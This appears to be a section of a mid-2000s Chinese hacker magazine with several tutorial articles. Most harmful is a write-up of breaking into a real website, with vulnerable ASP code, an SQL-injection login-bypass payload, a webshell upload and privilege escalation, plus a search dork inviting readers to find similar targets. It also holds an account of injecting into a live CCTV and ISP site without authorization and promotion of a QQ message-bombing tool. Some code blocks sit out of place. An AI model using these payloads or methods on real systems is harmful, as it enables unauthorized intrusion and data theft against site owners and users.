**编辑点评：** 作者这篇文章给了编辑不小的震撼，盗 Q 原来已经形成了一个很成熟的地下黑市，盗 Q、卖信封、洗 Q、卖 Q，利益的驱动让这些人不约而同地聚在一起，各自施展特长干起非法勾当。难怪小编 Q 上以前很活跃的一部分技术高手突然从 Q 上消失无踪，难不成他们干这个去了？还是搞网游去了？还是真……真是黑幕重重，小编想不明白了，这世界变化快。

# 从本文你可以学到：
利用萤火虫 QQ 辅助打造个性 QQ

放假回来，随便到网上逛了逛，正好发现了一个不错的 QQ 辅助工具，叫“萤火虫 QQ 辅助”，不敢独享，介绍给大家吧。

萤火虫 QQ 辅助集成了多种 QQ 辅助软件于一体，所以更加方便。因为软件在不断完善当中，所以更新周期比较短，光盘中收录的可能当大家拿到时已经过时了，所以建议大家经常去它的官方网站查看是否有新版本，官方网站是 http://www.fireqq.com。

软件原本是需要安装的，为了方便大家，我已经把工具打包成绿色软件了。将软件下载解压之后，打开 **萤火虫QQ辅助.EXE**，出现萤火虫 QQ 辅助的登录框，如图 1。这里需要注册一下，不过非常简单，只要输入 QQ 号即可，如图 2、3。登录之后，软件就自动隐藏在任务栏里，如图 4。

单击左键出现所有功能，如图 5。

- **官方释意如下：**
- **QQ繁体字**：适合于喜欢标新立异的 QQ 网虫，你打的是简体字，发送给你好友后自动变成繁体字。并附带了简繁汉字转换器，方便大家随时转换；
- **QQ性别修改器**：很方便操作的 QQ 性别修改器，半分钟内可以帮你把性别改成任何字。
- **QQ个性签名**：收录一批个性签名，你可以挑好玩的复制为你自己的。
- **QQ强制聊天**：填上对方的 QQ 号，然后点“聊天”，即使你没加他，你也可以跟他聊天；
- **QQ炸弹**：收录一些常用的炸弹文字，可以自动向网友发个不停（小编提醒：这招很损，请勿使用）；
- **踩空间**：互踩 QQ 空间，赚取空间人气和积分，每两次踩空间之间有时间限定，杜绝了恶意刷人气；
- **QQ登录器**：只需要将你的各个 QQ 的 QQ 号和密码输入到软件里面，就可以实现一键登录你所有的 QQ；
- **QQ表情**：在任何网页图片的右键菜单上添加“发送表情”，使你可以直接把网页上的有意思的图片作为 QQ 表情发送给好友。还可以看到其他的萤火虫用户最近发送了哪些 QQ 表情图片，并且可以查看本地 QQ 表情。

所有方法都非常简单，而且每个工具都附带了使用帮助，因此这里就不啰嗦了。希望能给大家带来帮助，快去试试吧。

> **编辑点评：**
> 虽然网上制作 QQ 的方法已经流传很久了，但有一个综合的工具还是方便许多。去试试吧，打造一个个性的 QQ。

## 对QQ会员扣一分

如果你是 QQ 会员，除了一般的服务之外，还有很多服务你可以充分利用——我们都喜欢腾讯给你的红色一点服务哦！因为一个月以后你就没这种待遇了。下面介绍几种实用的吧。

- 网络硬盘是大家公用的。现在你有 128M，赶快把你常用的工具上传着。一个月以后你就只有 16M 了（虽然 TM 有 32M，但怎么够我们用啊）。不过大家可以放心，一个月以后你不是会员了你还是有 128M，不过上传上去的不要删除，你删一点就少一点啊。
- 成为会员后你还可以给网络硬盘设密码。一个月以后你不是会员了，但你的密码还会保留，人家盗了你 QQ 也拿不到你里面的重要资料。
- 你可以把你认为最经典的 QQ 头像上传上去。一个月后，你不是会员了，你还可以拥有你那个性的头像。
- 如果你想建群的话，这是一个很好的机会，会员可以建 4 个群，快建啊！你可是老大啊！一个月以后你还是老大哦。
- 你的网络硬盘还不够用的话，嘿嘿，先创建好群，打开群分类，在群的名称上点右键，选择“修改自己的群名片”，在“基本设置”里选择“不允许任何人加入该群”，然后点“确定”。打开共享看看，这样你就又有了 16M 哦，4 个群的话有 64M 哦。
- 会员还有个好处就是许愿（http://my.qq.com）。普通用户只有一个愿望；你可以有三个哦，告诉你一个小技巧：你可以把这三个愿望都许“我想要免费成为 QQ 会员”，这样成功的机会会很大。
- 你可以设置一个喜欢的 QQ 炫铃，不是会员后，QQ 炫铃也是可以保留的。

# 浅见 AutoRun

> **星云：**
>
> HI！欢迎到 Q 版坐，顺便给你泼杯茶！并祝大家圣诞快乐！在一本《黑客手册》前翻看时发现风云变幻，发现国内许多大型的网站都被曝存在安全问题，有公司的、政府的、学校的，唉，无语了！这不，今天又有一位朋友发现了央视网络电视的蹊跷。icyleaf 带你们揭开 autorun.inf 的神秘面纱，浪子兄弟的 SQL 注入文章让我们看到了小菜也可以玩注入！在安全领域有很多问题，它看似难以解决，却可以用一些小办法轻松搞定，“破解‘大师’的加密光盘”这篇文章讲的就是这样的小技巧。精彩不容错过，尽在 Q 版！

- 从本文中你可以学到：
- autorun.inf 文件的编写
- 禁用 autorun 自动播放功能的方法

在我学校的电脑堪称病毒机，都是公共机器，其中最多的就是利用 AutoRun.inf 传染的 U 盘病毒。弄得我同学的机器一杀毒就杀出上百个，真汗……估计也是不经常杀毒，杀不了的就来找我帮忙。看了 2006 年 10 月《黑客手册》中的一篇文章“自己动手打击病毒”后，觉得有必要深入地解析一下 AutoRun 文件。

## 一、介绍

AutoRun 是 Microsoft Windows 操作系统的特点之一，它需要 Windows 95 和 NT 4.0 以上版本支持，用于基于 Windows 和 DOS 的应用程序。创建自动运行的应用程序需要建立两个文件，其中一个是 AutoRun.inf，另一个为启动应用程序。当设备（如 U 盘/光盘）插入到一个支持自动播放的计算机中时，系统会自动检测插入设备上是否有有效的文件系统，如果有的话，它会搜索一个文件名为 AutoRun.inf 的配置文件，从这个文件找到安装程序和各种可选的配置，然后加载这个应用程序。

图1 通过属性设置为提醒运行

Shell=Explorer，为驱动器的右击菜单指定一个缺省命令，例如：
Shell\Explorer=“资源管理器”，这是菜单上显示的字符串，你可以通过 Shell\Explorer\Command=Explorer.exe 来执行命令。这样结合起来就是点击右键菜单中的“资源管理器”就执行了 Explorer.exe。菜单和执行命令要统一，这里都是 Explorer。

> 我见过很多的 U 盘病毒，它们所写的方法和《自己动手打击病毒》文中所写的一样，利用 RECYCLER 文件夹。熟悉系统的都知道，每个硬盘分区都有一个回收站回收点，隐藏的 RECYCLER 文件夹，其实它就是为了方便管理以及空间的合理分配才这样设置的。那些做病毒的人就是利用这点。不过我见过的很多的 RECYCLER 文件夹都是默认的文件夹图标，更重要的就是可移动磁盘是没有回收站的，这说明了为什么你直接在可移动磁盘删除文件而无法撤消。切记可移动磁盘是没有回收站，以后在其他机器上使用了“自己的 U 盘”，最好先杀毒；如果喜欢手动杀毒，在插入 U 盘后就右键点击盘符查看是否有猫腻~

## 二、格式

AutoRun.inf 文件由若干节组成，下面是一个典型的 AutoRun.inf 文件，“;”及其后的语句为注释说明。

```text
[autorun] ; 所有的 AutoRun.inf 文件都必须有一个 [autorun] 节
Open=AutoRun.exe ; 启动程序的文件名，一般位于根目录，可以有路径，但不要带驱动器号，因为各个计算机的设置不一样导致驱动器符不固定。
Icon=AutoRun.exe,1 ; 为磁盘指定一个图标，这里的文件 AutoRun.exe 中资源标识为 1 的图标。图标可以来自一个 Exe 或 Dll 文件的内部资源。
DefaultIcon=icon.ico ; 应用程序的缺省图标，这两种指定图标的方法可以互换。
Label=“我的 U 盘” ; 驱动器显示标签。
ShellExecute=<FilePath>\fileName [Param1,[Param2]…] ; 自动运行用来调用 ShellExecuteEx 的程序，文件名为一个可执行文件。这个命令与 Open 相似，但它可以利用文件的关联信息运行程序。
```

## 三、禁止方法

一种是手工暂时禁止自动运行的方法比较简单，只需在插入光盘（可移动磁盘）的同时，按下 Shift 键即可。

可移动磁盘的自动运行主要是由于你设置造成的，可通过在可移动磁盘的属性“自动播放”选项卡中改为“每次提醒我选择一个操作”，如图 1。

或者使用策略组，在运行对话框输入 gpedit.msc，找到“用户配置”->“管理模板”->“系统”，在右边找到“关闭自动运行功能”，双击打开修改成“已禁用”即可。

另外一种方法是通过修改注册表。在注册表中有两个地方都可以禁止。

- 打开 **HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Cdrom**，在此项下有一类型为 REG_DWORD 的值 **Autorun**，改为 0 即可禁止自动播放功能，设置为 1 则反之，如图 2。

这个方法适用于 Windows 9X/2000/NT 系统。

- 打开 **HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer**，在它下面有两个键也可以设置修改自动播放功能。这两个都是 REG_DWORD 类型。

**NoDriveTypeAutoRun**：规定某一类特定设备禁止自动播放。

默认为 0x95，修改为 0xB5 为禁止（这里是 16 进制）。

图2 修改注册表禁用 autorun 自动播放

用户最好把它原来存储的值记下来，因为没有更好的办法能够恢复它的原始值。如果是将驱动器的 CD 自动播放功能禁止，则设置为 0xBD。其实这个值的设置范围在下列列表中，如图 3。

若要禁止若干类型则使用它们数值相加的值，如 0x95=0x01+0x04+0x10+0x80。

**NoDriveAutoRun**：规定某一指定驱动器盘符禁止自动播放。NoDriveAutoRun 值存储一个双字 32 位的整数，它的低 26 位从最低位到最高位依次对应计算机上驱动器盘符 A、B、C……Z。如果设置某一位为 1，则表示相应的盘符的驱动器的自动播放功能失效。如我的光驱为 G 盘，则相应的就是 0100 0000，换算成十进制就是 64（注意必须系统重启或注销后方能生效）。这个方法适用于 Windows NT/XP。

| 位号 | 0x01 | 0x04 | 0x08 |
|---|---|---|---|
| 描述 | 未知类型 | 可移动磁盘 | 硬盘 |
| 位号 | 0x10 | 0x20 | 0x80 |
| 描述 | 网络驱动器 | 光盘 | 保留位 |

图 3 位号与设备描述列表

作者写到这里的时候，觉得这种病毒手段并不高明，大概一看就明了。

> **编辑点评：**
> 要说 autorun.inf 由来已久，在安全界也是尽人皆知。无数人就因为一个 autorun.inf 加一个后门程序获得了无数权限，也因此有很多人遭殃。iceleaf 的文章让我们了解了 autorun.inf 的详细语法，让我们利用起来更加灵活。而后面的禁用方法讲解同样详细，使用时同时不要忘了做好自我保护哦！这就是攻与防的结合，也是安全的魅力所在！

# 菜鸟找漏洞

# 渗透网站的“反思”

樱花浪子 [I.S.T]

- 从本文中你可以学到：
- 通过 Request 语句找注入漏洞
- `'or'='or'` 的利用原理
- 后台上传漏洞的发掘

事情起因是 QQ 上的一位朋友发过来一个网站，说好像有漏洞，因为这位朋友是刚刚接触网络安全方面的，我接过来网址一看，真所谓漏洞百出呀，当然这样的网站是不会被小黑错过的，首页明显地被人挂了马。那就做做好事把这个马去掉吧！从入侵到得到 WEBSHELL 不到三分钟。当然不是我的水平有多高，而是太多太多的漏洞……得到 WEBSHELL 一看发现装有 Serv-U，上传这个 ASP 版的提权工具还能提权，汗之。下面我们开始看看看到底有什么漏洞。

```asp
<%
dim sql
Set cmdTemp = Server.CreateObject("ADODB.Command")
Set insertCursor = Server.CreateObject("ADODB.Recordset")
cmdTemp.CommandText = "SELECT top 1 * FROM news order by id desc"
cmdTemp.CommandType = 1
Set cmdTemp.ActiveConnection = conn
insertCursor.Open cmdTemp,,1,3
insertCursor.addnew
insertCursor("title") = Request("title")
insertCursor("content") = Request("content")
insertCursor.Update
response.write insertCursor("id")
response.End
insertCursor.movelast
%>
<script language=Javascript>
<!--
alert('添加成功！')
window.location='newsAdd.asp'
//-->
```

## 一、无处不在的注入

在 ncwsshow1.asp 中的 157 行代码如下：

```asp
<%
sql="select * from news where id="&Request("id")
set rs=conn.execute(sql)
if not rs.eof or err then
%>
```

直接用 Request 取得 ID 值，什么也没过滤，就执行 SQL 语句了，这样就能执行我们的“恶意”SQL 语句了。相信亲爱的朋友们也能看懂吧！如图 1。

## 二、比较流行的跨站

在首页有个给访问者发布信息的，文件为 newsadd.asp。打开后发现处理文件为 saveNewsAdd.asp，如图 2。直接来到这个文件看一下第 3 行到 23 行的代码：

图 2 处理文件为 saveNewsAdd

上面是我自己上传上去的，还是用 Request 直接获取用户提交的名字和内容，什么也没过滤，就会告诉添加成功了。如图 3。

## 三、经典的 'or'='or'

我这个人一般发现注入漏洞就先找后台，这次也不例外。没想到找到后台后，直接 `'or'='or'` 居然进去了。在 admin/login.asp（管理员登录页面）的第 2 行到 13 行代码如下：

```asp
<%
if Request("userId")<>""
```

## 四、后台上传漏洞

```asp
then
    sql="select * from users where userID='" & trim(request("userID")) & "' and Password='" & replace(trim(request("password")),"'","''") & "'" '用 replace 函数过滤函数的单引号
    response.write sql
    response.End
    Set rs = conn.Execute(sql)
    if not (rs.eof or err) then
        '代码略
    else
%>
```

userID 代表管理员用户名，Password 是管理员密码。userID 去空格直接取值，Password 用了 replace 函数将单引号变成双单引号。这样我们在管理员用户名的地方提交：`o' or 1=1 or '`，变成：`sql="select * from users where userID='o' or 1=1 or '' and Password='" & replace(trim(request("password")),"'","''") & "'"`。`or` 在逻辑运算中有一个为真则为真，这样就不会执行后面的 and 了。当然它后面用 replace 过滤单引号是什么作用也没有的。因为它判断管理员用户名是否为空，密码的地方没什么判断，我们密码处什么也不用填，如图 4。

```asp
<%
set upload=new upload_5xSoft
formPath=formPath
set file=upload.file("file1")
formPath="../file/"
if file.FileSize > 0 then    '如果 FileSize > 0 说明有文件数据
    fileName=file.FileName    '获得文件名的值
    file.SaveAs Server.mappath(formPath&fileName)    '保存文件
end if
set file=nothing
%>

<script language=JavascrIpt>
<!--
alert('文件上传成功！');
window.location='addFile.asp'
-->
</script>
```

下面看下 savefile.asp（处理上传的文件），3 行到 19 行代码如下：

如果 FileSize > 0，说明就会直接保存文件了（当然我们不会传空文件了），而且连文件名字都没有变动，如图 5。

最后总结一下，我找了半天也没找到这是什么程序，去 GOOGLE 搜索中文网站：`inurl:admin/default.asp` 找到了几个类似的网站。留给比我还菜的朋友们自己研究吧。这是我接触网络安全方面第一次遇见漏洞这么多的网站，希望能给菜菜朋友们带来帮助。欢迎朋友们去非安全的论坛和我交流技术，我的 ID 是樱花浪子。

> **编辑点评：**
> 虽然方法是老的，但是浪子从漏洞利用原理方面给我们讲解出来，稍微懂一些 SQL 的朋友相信不难看懂吧！菜鸟永远存在，而我们永远需要菜鸟型的文章，只不过写的人不同罢了。现在网络上的脚本程序漏洞满天飞，一些网站也许只要几句 SQL 语句就可以拿到 admin，学注入的朋友越来越多也不足为怪了。小编对 SQL 注入是小菜，我喜欢这样的文章。

# 破解“大师”的加密光盘

从本文中你可以学到：

- 一种简单的破解“光盘加密大师”的方法

一日，好友小雪来访。小雪：前段时间用“光盘加密大师”做了一张加密光盘，可是我把密码忘了，你能帮我把密码找回来吗？刺猬：啊？破解我没干过，不专业啊！^^ 小雪：少整那没用的！帮还是不帮！刺猬：不帮！哪敢哟……

放入小雪带来的光盘，自动弹出了一个窗口，如图 1。“嗯，密码是多少？”我笑眯眯地看了一眼小雪。“废话，我要是记得还来找你！”“嘿嘿，不要这样嘛！”

寂寞的刺猬 [L.S.T]

“返璞归真！”我随便输入了一串数字，返回的提示是“密码不正确”！虽然偶没有搞过破解，但也看了几篇这方面的文章，正好借这个机会实践一下。先打开“W32DASM”静态分析软件，载入光驱中的“cdrun.exe”，然后依次点击“参考”－“串式参考”，在打开的“参考内容清单”窗口中，找到“密码不正确”字串，双击后得到该字串的偏移值“0047CC60”。接下来启动“OllyDbg”（动态分析软件），同样先载入“cdrun.exe”，然后在“0047CC60”处按 F2 下断点，再按 F9 启动程序，在弹出的密码输入窗口内，输入 123456，回车后，程序停在了“0047CC60”。按照破解的规律，这时应该能看到正确的密码了。果然，在左边的寄存器窗口内，出现了两个值，如图2。

经过多次测试后得知，其中“916428C69551E1A6”是123456的转换值，而另一项则就是原密码的转换值，只要能找出其算法就能得到原密码值。问题是：光盘加密大师的密码是怎样的一种算法？试着用 F7 跟进，结果，偶的汇编太烂了，看了很长时间也没看懂！

> “破不出来！”偶沮丧地说。

“那怎么办？不用密码能看到其中的文件吗？”小雪用一种期待的眼神看着我。

“这个？试试吧。”

前段时间偶用“FinalData”恢复了硬盘中丢失的数据，不知道这个软件是否能读出加密光盘中的文件？启动“FinalData 2.0 企业版”，点击工具栏中的“打开”图标，选择“逻辑驱动器”中的光驱盘符，在打开的“选择要搜索的簇范围”窗口内，点击“取消”按钮，在光盘“根目录”中多了几个文件，如图3。

> “这是不是你光盘中的文件？”我指着那些多出来的名称问。

“对，对！这些是目录名称，文件都在这里面。”小雪激动地答道。

“OK，这就给你恢复出来。”我自信地说。

结果出乎意料，恢复出的都是只有 2KB 大小的文件，根本就恢复不出隐藏在目录内的文件，哇！糗大了！我傻傻地冲着小雪一直笑，“不要紧，找不出来就算了。”小雪安慰道。“且慢！”虽然只有几秒钟时间，但大脑中的搜索却定位到了一个模糊的记忆上——DOS 命令。

“我想起了一种方法，记不太清了，先百度一下。”在一番查找后，我兴奋地对小雪说：“找到方法了！”

“真的？”小雪半信半疑地看着我。

“嗯，50% 的把握！”（这里省略挨扁的一千字）。

打开 CMD 窗口，先将路径切换至光盘盘符，然后输入 `cd 图像`，回车后如图4。

> “哈哈，进入了‘图像’目录，然后执行 Dir 命令。”

“瞧，图像目录中的文件及文件夹全部显示出来了。”

“那，怎么弄出来啊？”

“简单，用 COPY 命令！比如，你要复制其中一个文件到 C 盘中，就执行如下命令：`copy 要复制的文件名 c:\文件名`”

“一个一个地复制，那不是很慢，有没有快的方法？”

“快的方法？XCopy，这个是可以复制指定目录内的文件夹及文件。命令是：`xcopy 光盘盘符:\目录\*.* 磁盘盘符:\指定目录 /s`。”偶不禁为自己能记住这些 DOS 命令而窃喜……

“怎么不行啊？用 Xcopy 复制光盘目录中的文件，出现的是：找不到文件--*.*”小雪着急地说道。

不会吧！偶试了一下，还真是这样，不过在磁盘目录中是正常的，看来在这个加密的光盘目录中，XCopy 发挥不了它的作用，那怎么办呢？有什么命令可以将目录映射呢？Subst——虚拟驱动器，但执行的结果和 Xcopy 是一样的，对加密光盘无济于事。还有哪个命令？我突然想到了“net share”——“共享”，不知道这个命令是否可行？在 CMD 中执行：`net share jm=r:\图像`，返回的是“jm 共享成功”，接着在“运行”中输入 `\\127.0.0.1\jm`，如图5。

> “图像”目录内的所有文件全部显示出来了，现在可以很方便地打开任意一个文件。

“OK，弄好了，厉害吧！”

“哼，这点小事，你弄了那么长时间，算了，不批评你了，把那个 FinalData 复制到我 U 盘中，停会儿再请我吃羊肉串，就当你将功补过了。”

“天啊，不是吧……”

> **刺猬独白：** 刚才俺只说了共享的方法，停会儿再给小雪讲解一下共享的危害性，嘿嘿，小雪呀，想知道去除共享的方法吗？那就继续瞧吧。PS：偷偷告诉你一下，去除共享的命令是：`net share 共享名 /del`。

【文章中涉及到的工具 FinalData 2.0 在光盘中有收录】

# 小编点评

刚看开头的时候，还以为又是一篇菜鸟爆破文章，可没有想到刺猬“汇编太烂”，呵呵！从使用 FinalData 得到加密的目录到使用映射得到加密文件，似乎有些巧合的味道。但这正是长时间积淀的结果，机遇都是给有准备的人准备的。如果你在密码混迹了几年的话，相信理解这样的小菜专利是相当 easy 的！

# CCTV 惊爆漏洞

## 一见风使舵安检南京互联网

话说“人在江湖，身不由己”，本人最近喜欢看《黑客手册》，所以决定投稿。大家不要以为我是 MM，其实我是男生。今天我要写一篇关于“某大型网络电视惊爆漏洞”的文章。最近老婆姗姗迷上看电影，又想免费着看，无奈，只好找免费的电影网站。百度里面一搜，某某网站好像是免费的，进去看看，大家看图1。

这就是某某站，呵呵~~其实这站并不是我的目标。看站测试了几个连接，没得到什么可用的信息，想到我那可爱的老婆，不能灰心，继续寻找“剩下的果实”。一个小时后，也许是管理员太粗心了，留的是一个“肥果子”，连接测试（加 and 1=1）结果如图2。

很明显的注入漏洞。国内这么牛的站，也存在这种漏洞，真是少见哦！废话不多说，拿出我的武器装备，啊口时的注入工具，此工具跟如来佛手一样，什么漏洞都逃不过它的“五指山”。一扫漏洞，吓一大跳，晕~~如图3。

竟然是 SA 权限、DBO 的用户，库是 CCTV，哇\~\~\~老天对我简直是太公平了，这种事情都让我碰见。用南京话讲：“这个情况真地是不错滴。”哈哈，我们用最常见的手法，列它的目录。C 盘倒没发现什么可用的信息，我们换成 D 盘瞧一瞧，吓死人的事情，就在这里发生了，如图4。

粗心的管理员居然把站点文件放到 D 盘，连华人视讯都在上面。随便看了下华人世界，也没什么东西，刚建的站。进了下后台，默认账号和密码，也没发现什么可以利用的空间。大家有没有发觉，law.js.vnet.cn 是什么？经常去刷服务的朋友，应该可以看懂的！我们就看这个站，我只是检测，我也不想跑管理员的账号和密码，毕竟电信是正规部门，搞不好，会进局子的。再看，“南京互联星空”的后台出来了，我们打开网页看看，我就不进去了，毕竟是 ISP 网络服务商，搞出纠纷就不好了。还有就是数据库漏洞，如图5。

只当友情检测一下，随即写了封信给管理员，算是告知义务。此次检测没进服务器和网站后台，只检测了漏洞页面，发现权限太大，就没敢再搞，希望有关部门重视一下。希望喜欢安全技术的朋友，可以和我一起学习和进步！

# 编辑点评

最近国内似乎在流行对权威网站进行安全检测之风，这股风刮得也算不小了，许多大站都被爆发现某某漏洞。试想一脚本小子用一个简单的检测加一个工具就轻易地进入了一个所谓“牛站”，安全状况令人担忧啊！安检可以有，但是可不要做坏事哦。

# Impossible is nothing

## 解开 MP3 真实下载地址之谜

Wandering Singer

# 从本文你可以学到：

- 1. 如何对 swf 文件进行反编译及从中获得下载链接

一句“Impossible is nothing”广告词使阿迪公司的产品风靡全球，也使 Jim Noir 的 Eanie Meanie 这首歌倍受球迷喜欢，见图1。

为了能听这首歌，只能去阿迪公司的广告下载专区。打开原始网页，凭心而论，阿迪的网站做得真不错，那个 Flash 做得相当精致。看来音频、视频都可能下载；可是我就是看中那个 Flash 中的几首背景音乐。打开音乐清单，按着清单上的介绍一点点地去酷狗和百度 MP3 里搜索。搜了大半天，除了第一首有一个效果不太好的可以勉强下载以外，其它几首全部都搜索不到。一怒之下，决心在阿迪的网站下载。

> 文中会涉及到的相关知识：

- 1. JAVA、HTML 方面的知识，当然不必精通，但不可不懂；
- 2. Flash 的源代码、反编译功底，只需要能看懂；
- 3. XML 语言，与 HTML 如出一辙；
- 4. 软件使用技能，起码熟悉几种常用的工具软件。

可是想归想，如果真地想下载却不是那么容易。当我们打开那个广告下载，结果发现这是一个 JAVA 弹出的窗口，见图2，隐藏了 Flash 的真实地址。没关系，弄个最笨的办法，把网页打开，发现这个 Flash 指向了 `http://www.adidas.com/campaigns/verticalsfootball/content/holder.asp`。这里如果用 Firefox，可以不用断网，只需要关闭原始网页就能发现。

OK，这是一个重大发现，下面我给大家介绍一款网站整站下载工具“网站大挪移”，我们把“holder.asp”这页面给下载下来。过程很简单，打开网站大挪移，新建一个项目，然后下载，很快就把它下载完成了。当然，下载的是经过编译的。然后我们用 Dreamweaver 打开该网页，看到一行源代码，“main.swf……”，见图3，我已经把原来下载的网页打开了，找到这条语句。

那还好，我们根据源代码猜测 Flash 的实际网址为 `http://www.adidas.com/campaigns/verticalsfootball/content/main.swf`，然后用 FlashGet，也就是我们常说的小车，把这个 Flash 下载到本地。由此也就证实了我们最初对这个 Flash 地址判断是正确的。当 Flash 成功下载，任务本来到这就算结束了。但是，我们怀着喜悦的心情打开下载的 Flash 时，问题出现了。屏幕上显示出一片黑乎乎的颜色。难道是我们下载错误了？还是阿迪的技术人员把 Flash 屏蔽掉了？当我们被一团团的迷惑所笼罩时，本能地想到了放弃。然而，当我看到我的另一款软件的时候，又重新焕发起了我的斗志，当机立断地抽出杀手锏“Imperator FLA”，对阿迪的 Flash 进行反编译，见图4。编译成功，我们打开这个经过编译的文件。

OK，这个 `main1.fla` 才是我们刚才编译过的，现在打开它。正如图中所看到的那样，我们把还原成“.fla”的文件，用 Flash MX 打开，这时出现在我们眼前的只是 Flash 的 loading 界面。不甘失败的我又运用自己少得可怜的 Flash 知识，仔细检查了这个 Flash 的所有组件。最后，在它的“media components”组件里出现了“mediacontroller”组件。对这个发现的喜悦程度绝对不亚于哥伦布发现新大陆，见图5。经过阅读这个组件的动作语句，发现在“Scene 1 → Action Script”里有些语句，就是再没有经验的人也会发现，Flash 源程序对是否连接到阿迪的网站及相关部分进行了检查。而这对我们来讲，也有一定的作用，那就是进一步证实了我在这之前的判断，阿迪把歌曲放在了自己的网站上。

这部分才是对我们最为重要的，“settings.xml”的出现，不由得使我眼前一亮。这个熟悉的“.xml”正是网上大家见得比较多的、尤其是国外 Flash 播放 MP3 的网页插件经常使用的歌曲列表技术。兴奋之余，在 Firefox 里输入 `http://www.adidas.com/campaigns/verticalsfootball/content/settings.xml`，打开以后，会发现 `<setup name="main_no10" type="asp"/>` 这段语句，我们猜测 `http://www.adidas.com/campaigns/verticalsfootball/content/main_no10.asp` 为真实地址。放在浏览器里测试下，结果一片空白，不要紧，看下源代码，见图6。

```text
main?site=cn" source="../media/collections/http://www.adidas.com/campaigns/verticalsfootball/content/.../main" ...
```

显示出一堆代码，反正我们已经和代码打交道很熟悉了。找到我们敏感的字眼“musicplayer”，发现了“musicplayer.xml”，根据我们从阿迪网站上总结出来的经验，我们进一步判断出下一步的地址是：

`http://www.adidas.com/campaigns/verticalsfootball/content/musicplayer/musicplayer.xml`

打开以后，找到 `<site id="cn">`。这个时候，天已经彻底放亮了。按照代码给我们的提示，打开链接：`http://www.adidas.com/campaigns/verticalsfootball/content/musicplayer/xml/mp3list-st.xml`，惊喜随即出现了，`path="sound/main.mp3"`。于是乎，我们猜测梦寐以求的 MP3 真实下载路径为 `http://www.adidas.com/campaigns/verticalsfootball/content/musicplayer/sound/main.mp3`，用小车试着下载，成功。接着打扫战场，把另一个网址输入至地址栏：`http://www.adidas.com/campaigns/verticalsfootball/content/musicplayer/xml/mp3list-mo.xml`，出现如图7所示的 10 个下载路径，然后一一下载，搞定。

费了九牛二虎之力，终于没有虎头蛇尾，把阿迪的十一首歌曲成功下载了。在这里，之所以给大家讲这个例子，只是用来给大家扩展一下思路，起到抛砖引玉的作用。生活中就要善于思考，善于动脑，才能解决问题。

```text
path="sound/01_origin_myth.mp3"
path="sound/02_thieves_of_memory.mp3"
path="sound/03_above_the_clouds.mp3"
path="sound/04_distilled.mp3"
path="sound/05_chemical.mp3"
path="sound/06_poetron.mp3"
path="sound/07_battleships.mp3"
path="sound/08_confession_superstition.mp3"
path="sound/09_overtime_and_in_the_zone.mp3"
path="sound/10_breathe.mp3"
```

> 我们再从头至尾地回顾一下所使用的软件及其功能：

- 1. 浏览器——我建议用 Firefox；
- 2. 网站下载工具——网站大挪移，一款整站下载工具，一般人我不告诉他；
- 3. 网页编辑器——Dreamweaver，不用多说，网页编辑利器，这么多年啊，我们一直用它；
- 4. 下载工具——FlashGet，飞一般的感觉！
- 5. Flash 源程序反编译器——Imperator FLA，它好，动画就好，咋编咋是，咋编咋行，您瞧准了 Imperator FLA！
- 6. Flash 编辑器——Flash MX，你，值得拥有！

其实只要我们充满自信，在这个开放的世界里，有许多东西都是我们唾手可得的。只要努力，只要耐心，就一定能行。用一句话结束这篇文章吧：“Impossible is nothing!”

后记：在制作动画的过程中发现，阿迪公司居然在很短的时间内把 Flash 的源代码改了，（怎么着，找练啊？：P）不过万变不离其宗，我们变通一下，依然能发现我们所需要的东西。就到这了，谢谢大家。

> 【文中涉及到的 Imperator FLA 及完成演示动画，已经收录在光盘中】

```xml
<site id="cn">
<xmlFiles>
<files path="xml/mp3list-st.xml" type="soundtrack" id="1"/>
<files path="xml/mp3list-mo.xml" type="monthly" id="2"/>
<files path="xml/musicplayer_copy_cn.xml" type="copy" id="3"/>
</xmlFiles>
```

编辑点评：看完这篇文章我也去了这个网站的 MP3 音乐洗劫了一把，如果你是初学者请不要被无数的代码和链接搞迷糊，通过下载了 `main.swf` 文件后仔细分析 Action Script 中的地址，每个文件都会起一个形象的名字，我们可以通过这个特性来寻找。

# 除去插件，不再流氓

## ——菜鸟轻松提取安装程序中的流氓软件

**从本文你可以学到：**

如何使用 Universal Extractor 去除安装程序中的不必要文件。

如今整个互联网已经被“流氓软件”的话题所包围，在下载和安装许多软件时，一不小心就会被强制选择安装一些不必要的东西，而这些东西有可能还会对用户的电脑进行修改或控制。出现如此尴尬的东西，大家也不必担心，今天介绍的软件是让大家能够直接从安装程序中提取出相关文件的软件，打造我们自己的绿色安装程序。

## 一、安装运行

我下载的是 RAR 压缩版本，解压后我们可以发现这个软件也是一个“绿化”了的软件，直接运行文件夹里面的“绿化.bat”进行“绿化”，如图1。

接着进入该目录的“bin”文件夹，找到主程序“UniExtract.exe”进行运行，就可以使用本软件了，如图2。

## 二、如何使用

笔者所使用的“虚拟桌面专家 1.82”捆绑有某些东西，所以决定用 Universal Extractor 去除。运行 Universal Extractor 后，只需要指定待提取的文件和目标文件夹，Universal Extractor 会自动分析文件类型并开始提取，如图3。

点击“确定”按钮开始对指定的安装程序进行文件提取，提取过程中有可能会弹出 DOS 框，不用理会，如图4。

提取结束后，打开保存的文件夹进入“{app}”这个目录，我们就可以发现安装程序中的一些文件，如图5。在这里我们发现了“baidu”“IPTV”等这些被捆绑进安装程序中的文件，不需要也不喜欢，删掉吧……

## 三、效果对比

最后，我们来对比一下原始安装程序的安装方式和“提取之后”的安装方式，如图6（原始安装程序）、图7（提取之后的安装程序）。

**编辑点评：**

Universal Extractor 几乎是一款万能的文件提取器，支持的文件类型多达 40 多种，无论是 zip、rar、7z 这些压缩类，还是软件的安装程序如 InstallShield、Windows Installer，甚至一些软盘映像如 IMG、ISO 等都可以使用它来提取出来。有了它，用户可以在安装软件之前就基本知道安装后的软件目录会有些什么东西，真是去除多余文件的必备之物！

# 夜航船

## 航船首语

近日有太多振奋人心的消息，虽然温度不停地降，但是众多厂商确实把人们弄得暖烘烘的。

对各位小菜来说，Vista 的最终发布一定很令人期待吧。那么 Vista 究竟是怎样的一个系统呢？它又有哪些新功能呢？它是否会给我们的生活带来一些改变呢？来看看本期的夜航船，或许能给你一点指引！

Windows Vista is the name of the latest release of Microsoft Windows, a line of graphical operating systems used on personal computers, including home and business desktops, notebook computers, and media centers. Prior to its announcement on July 22, 2005, Vista was known by its codename Longhorn. On November 8, 2006, Windows Vista development was completed and is now in the release to manufacturing stage. Microsoft has stated that the scheduled release dates are currently November 30, 2006 for volume license customers and worldwide availability on January 30, 